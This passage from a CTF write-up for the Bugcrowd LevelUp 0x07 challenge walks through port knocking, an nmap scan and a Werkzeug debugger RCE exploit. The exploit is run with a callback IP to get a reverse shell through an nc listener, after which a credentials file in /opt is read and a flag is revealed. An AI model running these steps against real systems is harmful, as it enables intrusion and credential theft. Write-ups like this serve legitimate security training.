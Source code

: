 ```python
	for p in permutations(ports):	# Try all the possibilities of the 4-ports order
		print "\n[*] Trying sequence %s" % str(p)
		knockPorts(p)
		testPort(3389)

main()
```

First give execution permission for the script:

**`$ chmod +x knock.py`**

Then, you can run it on your terminal:

**`$ ./knock.py`**

![]({{ 'assets/images/writeups/bugcrowd/levelup0x07ctf-writeup/23.png' | relative_url }})

Now after we succeeded to open port number **`3389`**, and scanned it using **`nmap`**. We find a running web service on that port called **`Werkzeug`**.

**`$ nmap -A -p 3389 07.levelupctf.com`**

![]({{ 'assets/images/writeups/bugcrowd/levelup0x07ctf-writeup/24.png' | relative_url }})

And by searching for any exploits for it,  we can find one RCE exploit which provide us with a shell on the server, where we can easily find the sixth flag.

> + **Exploit Database:** <https://www.exploit-db.com/exploits/43905><br>
> + **Rapid7 Vulnerability & Exploit Database:** <https://www.rapid7.com/db/modules/exploit/multi/http/werkzeug_debug_rce><br>

After downloading the exploit from **Exploit Database**, run it on your terminal to display it's usage.

`USAGE: python 43905.py <ip> <port> <your ip> <netcat port>`

**`$ python2 43905.py 07.levelupctf.com 3389 3.13.191.225 13264`**

![]({{ 'assets/images/writeups/bugcrowd/levelup0x07ctf-writeup/25.png' | relative_url }})

Here I used an awesome tool/service called [**`ngrok`**](https://ngrok.com/) . Which is a good choice if you don't have a VPS with a public IP. It enabled me to forward the exploit traffic to my localhost computer behind NAT.

**`$ nc -lvp 9999`**

![]({{ 'assets/images/writeups/bugcrowd/levelup0x07ctf-writeup/26.png' | relative_url }})

> **Sixth flag: `FLAG{022d8a7a561a02c371fd7c5ec3e5ea06}`**{: style="color: black;" }

Then, by looking into important files and directories in the linux server, you can find **`passwords.txt`** file in **`/opt`** directory, which contains credentials of the agents for the web portal.

**`$ cd /opt`**<br>
**`$ cat passwords.txt`**

![]({{ 'assets/images/writeups/bugcrowd/levelup0x07ctf-writeup/27.png' | relative_url }})
